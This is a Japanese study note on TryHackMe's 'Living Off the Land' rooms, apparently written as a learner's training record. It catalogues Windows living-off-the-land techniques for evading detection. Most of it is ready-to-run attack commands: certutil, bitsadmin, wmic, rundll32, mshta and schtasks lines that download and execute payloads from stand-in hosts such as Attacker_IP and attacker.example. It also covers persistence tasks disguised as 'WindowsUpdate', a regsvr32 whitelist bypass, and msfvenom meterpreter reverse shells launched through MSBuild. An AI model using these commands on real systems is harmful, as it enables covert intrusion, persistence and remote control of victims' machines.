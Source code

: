 # Living Off the Land

https://tryhackme.com/r/room/livingofftheland

https://tryhackme.com/room/livingoffthelandattacks

OS 標準のツール、または Microsoft 署名付きのツールを使って検出を回避する

## LOLBAS

https://lolbas-project.github.io/

ツールの（本来の用途とは異なる）便利な利用方法が網羅されているプロジェクト

## ファイル操作

ここでファイルダウンロードと書いているのは、ターゲットマシンにダウンロードするという意味。

### certutil

ファイルダウンロード

```ps
certutil -URLcache -split -f http://Attacker_IP/payload.exe C:\Windows\Temp\payload.exe
```

エンコード、デコード

```ps
certutil -encode payload.exe Encoded-payload.txt

certutil -decode Encoded-payload.txt payload.exe
```

### bitsadmin

ファイルダウンロード

```ps
bitsadmin.exe /transfer /Download /priority Foreground http://Attacker_IP/payload.exe c:\Users\thm\Desktop\payload.exe
```

### findstr

SMB 経由でファイルダウンロード

```ps
findstr /V dummystring \\MachineName\ShareFolder\test.exe > c:\Windows\Temp\test.exe
```

## ファイル実行

### explorer

```ps
explorer.exe /root,"C:\Windows\System32\calc.exe"
```

### wmic

管理者がローカルまたはリモートのWindowsシステムを照会および管理するためのツール。  
脅威アクターは、プロセスを起動することでリモートからコマンドを実行するために使用する。  
WMI ではコマンドの出力を表示することはできない。

```ps
wmic.exe process call create calc
```

```ps
wmic /node:TARGETHOST process call create "powershell -NoP -Command IEX(New-Object Net.WebClient).DownloadString('http://attacker.example/payload.ps1')"

wmic /node:TARGETHOST process get name,commandline

wmic process call create "notepad.exe" /hidden
```

### rundll32

#### 単純な例：指定したdllの指定した関数を実行

```ps
rundll32.exe C:\Users\Public\backdoor.dll,Start

rundll32.exe url.dll,FileProtocolHandler "http://attacker.example/update.html"

rundll32.exe C:\Windows\Temp\loader.dll,Run
```

#### 複雑な例：javascript を渡して mshtml.dll に実行させる

1. `javascript:...` の文字列全体がrundll32.exe に渡される
2. rundll32 は、`javascript:...`の文字列を解析し、dllのパスと実行する関数を認識する
3. rundll32 は、その関数に `eval("w=new ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");` を渡して実行させるイメージ。（あくまでイメージで、正確にその文字列が渡るのかは未確認）

```ps
rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");
```

Powershell を実行してファイルダウンロードしている

```ps
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://AttackBox_IP/script.ps1');");
```

### mshta

VBScript または JavaScript コードを含むことができる HTML アプリケーション ( HTA ) ファイルを実行する。

```ps
mshta "http://attacker.example/payload.hta"

mshta "javascript:var s=new ActiveXObject('WScript.Shell');s.Run('powershell -NoP -NonI -W Hidden -Command "Start-Process calc.exe"');close();"

mshta "C:\Users\Public\malicious.hta"
```

### schtasks

永続化

```ps
schtasks /Create /SC ONLOGON /TN "WindowsUpdate" /TR "powershell -NoP -NonI -Exec Bypass -Command "IEX (New-Object Net.WebClient).DownloadString('http://attacker.example/ps1')\""

schtasks /Create /SC DAILY /TN "DailyJob" /TR "C:\Users\Public\encrypt.ps1" /ST 00:05

schtasks /Run /TN "WindowsUpdate"
```

## ホワイトリストバイパス

### regsvr32

```shell
# 32bit 版ペイロードを作ることに注意
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=443 -f dll -a x86 > live0fftheland.dll

msf6 > use exploit/multi/handler
```

```ps
c:\Windows\System32\regsvr32.exe c:\Users\thm\Downloads\live0fftheland.dll

c:\Windows\System32\regsvr32.exe /s /n /u /i:http://example.com/file.sct Downloads\live0fftheland.dll
```

- 64bit の DLL を作った場合は、C:\Windows\SysWOW64\regsvr32.exe を実行する必要がある。
- 学習環境では機能しなかったので、信頼性は疑問符。

### bash

Windows Subsystem for Linux (WSL) が有効になっている前提

```ps
bash.exe -c <p​​ath-to-payload>
```

## PowerLessShell

ps スクリプトを、Powershell の代わりに、MSBuild を使って実行する。

```shell
git clone https://github.com/Mr-Un1k0d3r/PowerLessShell.git

msfvenom -p windows/meterpreter/reverse_winhttps LHOST=AttackBox_IP LPORT=4443 -f psh-reflection > liv0ff.ps1

msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_winhttps; set lhost AttackBox_IP;set lport 4443;exploit"

# ペイロードを MSBuild ツールと互換性のあるものに変換
python2 PowerLessShell.py -type powershell -source /tmp/liv0ff.ps1 -output liv0ff.csproj
```

```shell
c:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe c:\Users\thm\Desktop\liv0ff.csproj
```
